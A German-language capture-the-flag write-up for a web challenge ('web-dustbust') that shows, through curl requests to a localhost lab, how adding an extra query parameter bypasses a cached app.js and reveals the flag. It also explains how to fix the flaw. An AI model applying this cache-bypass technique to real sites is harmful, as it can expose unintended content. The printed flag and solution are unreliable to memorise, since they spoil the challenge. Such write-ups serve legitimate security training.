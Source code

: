 # web-dustbust

## Cache Buster Challenge

Auf der Seite _bankdirect Sicherheitsnews_ kann sich ein Kunde über Gefahren im Internet und Meldungen des Bürger-CERT [^1] informieren.

![bankdirect CTF Dustbust](screenshots/1.jpg)

## Lösungsmöglichkeit
Die Herausforderung der Challenge besteht darin, herauszufinden, dass die Inhalte der JavaScript-Datei dynamisch sind, aber gecached werden. Es gilt zu ermitteln, wie der Cache umgangen werden kann. Der `Cache-Control`-Header [^2] gibt den Hinweis auf das Ablaufdatum.

Es können unterschiedliche Cache Poisioning [^3] oder Cache Busting [^4] Verfahren genutzt werden, um zum Ziel zu kommen.

```
$ curl -s -D - -o /dev/null "http://localhost"
HTTP/1.1 302 Found
Date: Tue, 19 Jul 2022 08:24:04 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.30
Location: /index.php?c=31536000
Content-Length: 7997
Content-Type: text/html; charset=UTF-8
```
Wir folgen den Ressourcen und testen die dynamischen Scripts:
```
$ curl -s -D - -o /dev/null "http://localhost/index.php?c=31536000"
HTTP/1.1 200 OK
Date: Tue, 19 Jul 2022 08:23:20 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.30
Vary: Accept-Encoding
Transfer-Encoding: chunked
Content-Type: text/html; charset=UTF-8
```

Die einzig lokale Ressource die zusätzlich eingebunden wird und den Content liefert ist `app.js`.

![bankdirect app.js](screenshots/app_js.png)


Die Daten darin werden über PHP-dynamisch geladen:
```
$ curl -s -D - -o /dev/null "http://localhost/app.js?c=31536000"
HTTP/1.1 200 OK
Date: Tue, 19 Jul 2022 08:23:32 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.30
Cache-Control: public, max-age=31536000
Cached: 1
Vary: Accept-Encoding
Content-Length: 5205
Content-Type: application/javascript
```

## Erfolgreicher Cache Buster
Die Flag kann erlangt werden, indem der Cache erfolgreich umgangen wird. Hierfür muss der `app.js` Datei mehr als einen `$_GET` Parameter übermittelt werden:

```
$ curl -s -D - -o /dev/null "http://localhost/app.js?c=31536000&v=1231231231312"
HTTP/1.1 200 OK
Date: Tue, 19 Jul 2022 08:24:43 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.30
Cache-Contr: Who do you call?
Cache-Control: DBH{CacheBusters2022}
Vary: Accept-Encoding
Content-Length: 5205
Content-Type: application/javascript
```

![bankdirect CTF Dustbust](screenshots/3.jpg)

## Beseitigung der Schwachstelle
Diese Challenge hatte zum Ziel, dass Infrastrukturen und Deployments in Cloud-Umgebungen hinterfragt werden. Bei vielen Container-Umgebungen werden Application- oder Reverse Proxies eingesetzt, die eine Zwischenschicht zur Applikation darstellen. Caches sind unterschiedlich verwundbar oder injectbar. Das Problem des Aushebelns des Caches in dieser Aufgabe könnte behoben werden, indem serverseitig zwingend gespeichert wird und eine Umgehung des Caches nur bei validen Parametern erfolgt. Unbekannte Parameter sollten gefiltert oder ignoriert werden.

## Flag
```
DBH{CacheBusters2022}
```

## Footnotes
[^1]: vgl. https://www.buerger-cert.de/ \
[^2]: vgl. https://developer.mozilla.org/docs/Web/HTTP/Headers/Cache-Control \
[^3]: vgl. https://portswigger.net/web-security/web-cache-poisoning#identify-and-evaluate-unkeyed-inputs \
[^4]: vgl. https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws 

